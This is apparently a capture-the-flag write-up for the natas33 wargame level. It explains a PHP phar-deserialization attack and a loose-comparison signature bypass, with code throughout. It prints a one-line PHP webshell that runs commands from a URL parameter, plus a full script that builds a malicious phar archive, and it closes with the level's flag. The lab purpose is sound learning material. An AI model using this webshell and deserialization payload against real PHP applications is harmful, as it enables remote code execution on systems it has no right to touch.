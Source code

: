 ```yaml
---
layout: default
title: natas33
---
```


There is a vuln that was shwen in black hat conference, in 2018, that can be found here [PHP Unserialization vuln - Black Hat](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf).

When we use the `phar` wrapper, there are several functions that `unserilized` the metadata, include `md5_file` function. 

So, if we'll supply `.phar` file, we can simply override the `Executor`, and then setting our own `signature` and `filename`. (I simply set the signature to `true`, because any string which isn't empty string equal to true, when comparing using `==` and not `===`).

So first, let's upload our webshell, which is called `webshell_770.php`:
```php
<?php system($_GET['cmd']); ?>
```
![shell upload](./images/level33_shell_upload.png)

Then, we will create our `my_sol.phar` file, and upload it using the filename: `phar:///natas33/upload/my_sol.phar` 
(I want that it'll treat it as a phar archive)

![show phar](./images/level33_show_phar.png)
```php
  <?php

  class Executor{
      private $filename="/natas33/upload/webshell_770.php";
      private $signature=true;
      private $init=False;

      function __construct(){}
      function __destruct(){}
    }
    // create new Phar
    $phar = new Phar('my_sol.phar');
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar['bla'] = 'bla';

    $executor = new Executor();
    $phar->setMetadata($executor);
    $phar->stopBuffering();
?>
```

Now, we need to upload our `my_sol.phar`
![phar upload](./images/level33_phar_upload.png)


And lastly, ask for `phar:///natas33/upload/my_sol.phar`
![Flag image](./images/level33_FLAG.png)

**Flag:** ***`j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY`*** 